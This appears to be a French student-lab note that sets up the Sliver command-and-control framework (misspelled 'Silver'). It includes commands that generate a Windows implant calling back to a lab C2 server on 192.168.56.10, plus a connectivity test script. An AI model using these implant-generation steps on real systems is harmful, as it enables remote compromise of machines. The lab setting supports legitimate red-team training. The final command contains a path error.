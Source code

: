 ### Test de génération de payload
```bash
# Test simple
sliver-client -c "generate --http 192.168.56.10:8080 --os windows --format exe --save /tmp/test.exe"

# Vérifier le fichier généré
file /tmp/test.exe
ls -la /tmp/test.exe
```

### Test de connectivité complète
```bash
# Script de test complet
cat > ~/project-m1/scripts/test-silver-setup.sh << 'EOF'
#!/bin/bash

echo "=== Test Configuration Silver C2 - Projet M1 ==="

# Test 1: Serveur actif
echo "1. Test serveur Silver..."
if pgrep -f "sliver-server" > /dev/null; then
    echo "✓ Serveur Silver actif"
else
    echo "✗ Serveur Silver non actif"
fi

# Test 2: Listeners
echo "2. Test des listeners..."
netstat -tlnp | grep -E "(8080|8443)" && echo "✓ Listeners actifs" || echo "✗ Listeners non actifs"

# Test 3: Connectivité réseau
echo "3. Test connectivité vers VM2..."
ping -c 1 192.168.56.20 > /dev/null && echo "✓ VM2 accessible" || echo "✗ VM2 non accessible"

# Test 4: Génération payload
echo "4. Test génération payload..."
sliver-client -c "generate --http 192.168.56.10:8080 --os windows --format exe --save /tmp/test-$(date +%s).exe" > /dev/null 2>&1
if [ $? -eq 0 ]; then
    echo "✓ Génération payload réussie"
else
    echo "✗ Échec génération payload"
fi

echo "=== Test terminé ==="
EOF

chmod +x ~/project-m1/scripts/test-silver-setup.sh
./~/project-m1/scripts/test-silver-setup.sh
```

---